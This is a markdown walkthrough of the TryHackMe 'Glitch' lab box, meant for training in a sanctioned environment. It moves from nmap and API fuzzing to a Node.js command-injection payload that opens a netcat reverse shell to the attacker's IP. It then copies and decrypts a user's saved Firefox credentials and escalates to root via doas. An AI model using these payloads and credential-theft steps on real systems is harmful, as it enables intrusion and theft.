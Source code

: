In this walkthrough, we'll go over a challenge (easy) level box called ***Glitch*** on [TryHackMe](https://tryhackme.com/room/glitch) 

![Glitch](glitch.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.29.37 --open
```
It looks like the only port open is 80:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-11 10:21 EDT
Nmap scan report for 10.10.29.37
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.45 seconds
```
![Glitch Index](glitch-index-html.png)

When inspecting the page source, we see a function called "getAccess()":
![Glitch JavaScript](glitch-javascript-function.png)

And in the web developer tools, I run the JavaScript function of getAccess() and that spit out the access token:
![Glitch Access Token](glitch-access-token.png)

***Access Toke: dGhpc19pc19ub3RfcmVhbA==***

We can also go to http://10.10.29.37/api/access to get the base64 encoded token:
![Glitch API](glitch-api-testing.png)

After decoding it, we can use the value in the web console and refresh the page:
`echo dGhpc19pc19ub3RfcmVhbA== | base64 -d`
`this_is_not_real`
![Glitch New Page](glitch-new-page.png)

Since I know that there is a folder called "/api" so I ran dirsearch again:
`dirsearch -u http://10.10.198.129/api/ -r -f -t 50 -x 302,400,403,500,503 --cookie=this_is_not_real -w /usr/share/wordlists/dirb/big.txt`
![Glitch API Dirsearch](glitch-api-dirsearch.png)

Upon visiting http://10.10.198.129/api/items, I found a dictionary of items:
![Glitch API Items](glitch-api-items.png)

When I change the request to POST in Burp, I got a message back:
![Glitch API POST](glitch-api-items-post.png)

We can now fuzz the items page with ffuf:
`ffuf -w /opt/SecLists/Discovery/Web-Content/api/objects.txt:OBJ -X POST -u http://10.10.198.129/api/items\?OBJ=1 -t 100`
![Glitch API Fuzzing](glitch-api-fuzzing.png)

Since we know we can run commands via node.js, I followed this article to get a reverse shell https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/

If you get an output like "\[Object Object\]", that means it is a RCE.
require{"child_process"}.exec("whoami")

By using the following link https://www.revshells.com/ I generated the following code:
![Glitch Revshell Generator](revshell-generator.png)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.13.6.172 5555 >/tmp/f` and then I  encoded to comply with URLs and sent the payload with curl:
```bash
curl -s -X POST --cookie "this_is_not_real" "http://10.10.198.129/api/items?cmd=require('child_process').exec('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.13.6.172%205555%20%3E%2Ftmp%2Ff')"
```
We are able to get a shell back:

![Glitch Foothold](glitch-initial-foothold.png)

### Lateral Movement
In the home folder of user, I see a firefox folder in the folder there is a file called "b5w4643p.default-release", this seems interesting so I decided zip the whole folder and transfer to my local machine:
![Glitch Firefox](glitch-tar-firefox.png)

I then used firefox_decrypt.py from https://github.com/unode/firefox_decrypt and decrpyted the firefox creds:
![Glitch Firefox Decrypt](glitch-firefox-decrpyt.png)

![Glitch v0id](glitch-v0id-user.png)

### Privilege Escalation
We can run linpeas under user v0id:

![Glitch linpeas](glitch-linpeas-run.png)
![Glitch Doas](glitch-doas.png)

doas binary looked out of place:
looking at it and it said v0id could run commands as other users:
![Glitch Doas help](glitch-doas-help.png)

After that we issue `/usr/local/bin/doas -u root bash` by providing v0id's password and we are able to switch to the root user:
![Glitch Root](glitch-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
